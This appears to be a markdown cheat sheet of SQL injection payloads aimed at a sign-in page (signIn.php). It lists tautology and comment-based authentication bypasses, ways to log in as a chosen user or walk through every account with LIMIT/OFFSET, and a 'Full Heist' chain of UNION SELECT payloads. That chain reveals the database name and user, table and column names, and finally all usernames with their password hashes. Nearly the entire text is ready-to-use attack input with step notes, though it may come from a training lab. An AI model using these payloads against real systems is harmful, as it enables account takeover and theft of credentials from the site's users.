 - Auth Bypass on signIn.php

  1. username => 'or '1'='1' -- '
  2. You can use this attack to get the first user, if you do not any username prior to your attempt.

- Auth Bypass with any field that may be publicly available

  1. username => 'or email='smb@gmail.com' -- '

- Auth a specific user by a known unique field
  username => 'or username='smb' -- '
  or
  username => 'or email='smb@gmail.com' -- '

- Auth Bypass with any skipping through

  1. username => 'or '1'='1' LIMIT 1 OFFSET 2 -- '
  2. OFFSET is the key value here. This way, you can go through the whole table.

- Get first table name, using DB name obtained above

  1. username => fsdfs' UNION SELECT table_name, 1 FROM INFORMATION_SCHEMA.tables WHERE table_schema='test' -- '

## Full Heist

- Get number of fields returned

  1. username => fsdfs' UNION SELECT 1, 2, 3 -- '
  2. The fsdfs is just random text to make the username query fail, since fsdfs is most likely not a real username in the system
  3. Progressively increase the number of comma-separated values in the SELECT, until if doesn't fail

- Get DB name and DB user account

  1. username => fsdfs' UNION SELECT DATABASE(), user(), 1 -- '

- Get all table names, using DB name obtained above

  1. username => fsdfs' UNION SELECT GROUP_CONCAT(table_name), 1, 2 FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA='test' -- '
  2. Note: test is the DB name obtained above

- Get all column names

  1. username => fsdfs' UNION SELECT GROUP_CONCAT(column_name), 1, 2 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='users' AND TABLE_SCHEMA='test' -- '

  2. Note: users is the table name obtained above

- Get all usernames and corresponding password hashes

  1. username => fsdfs' UNION SELECT GROUP_CONCAT(username), GROUP_CONCAT(password_hash), 1 FROM users -- '
